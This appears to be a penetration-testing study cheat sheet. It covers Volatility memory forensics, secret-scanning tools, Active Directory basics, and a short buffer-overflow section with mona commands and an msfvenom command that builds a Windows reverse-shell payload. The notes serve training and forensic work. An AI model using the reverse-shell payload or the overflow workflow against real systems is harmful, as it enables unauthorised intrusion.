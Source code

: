 ## Memory <a name="mem-forensic"></a>

- Volatility

List all profiles: `vol.py --info`
Extract cpu details from memory dump: `vol.py -f memory_dump.img linux_cpuinfo`
Extract list of open tcp connections from memory dump: `vol.py -f memory_dump.img linux_netstat`
List all processes: `vol.py -f memory_dump.img linux_pslist` or `vol.py -f memory_dump.img linux_pstree`
Extract IP addresses from memory dump: `vol.py -f memory_dump.img linux_ifconfig`
Identify applications using promiscuous socket from memory dump: `vol.py -f memory_dump.img linux_list_raw`
Recover bash history from memory dump: `vol.py -f memory_dump.img linux_bash`
Get IP and MAC addresses from memory dump: `vol.py -f memory_dump.img linux_arp`
Dump binary using pid: `vol.py -f memory_dump.img linux_procdump -p <pid> --dump-dir .`

# Devsecops <a name="devsecops"></a>

- `devskim analyze .`
- `devskim analyze . -s critical`
- `trufflehog --regex . `
- `trufflehog --json --regex . | python -m json.tool` <-- dump output as json

Nginx configuration helper: Gixy

# Buffer Overflow

Immunity Debugger
!mona config -set workingfolder
!mona bytearray -b "\x00"
!mona compare -f c:\mona\oscp\bytearray.bin -a number
!mona jmp -r esp -cbp "\x address"
https://defuse.ca/online-x86-assembler.htm#disassembly2
msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= EXITFUNC=thread -b "\x01\xA7\xFA\x30"
retn = reversed address

# Active Directory

AD = Collection of machines and servers connected inside of domains, that are part of a bigger forest of domains.

AD functioning bits and pieces =

- Domain Controllers
  - Windows Server that has Active Directory Domain Services installed and has been promoted to a domain controller in the forest.
    - Holds the AD DS data store
      - Contains the NTDS.dit - A database that contains all of the information of an Active Directory domain controller as well as password hashes for domain users
      - Stored by default in %SystemRoot%\NTDS
      - Accessible only be the domain controller
    - Handles authentication and authorization services
    - Replicate updates from other domain controllers in the forest
    - Allows admin access to manage domain resources
- Forests, Trees, Domains
  - Defines everything
  - Collection of one or more domain trees inside of an AD network. It is what categorizes the parts of the network as a whole.
  - Trees - A hierarchy of domains in AD DS
  - Domains - Used to group and manage objects
  - Organizational Units - Containers for groups, computers, users, printers and other OUs
  - Trusts - Allows users to access resources in other domains
  - Objects - users, groups, printers, computers, shares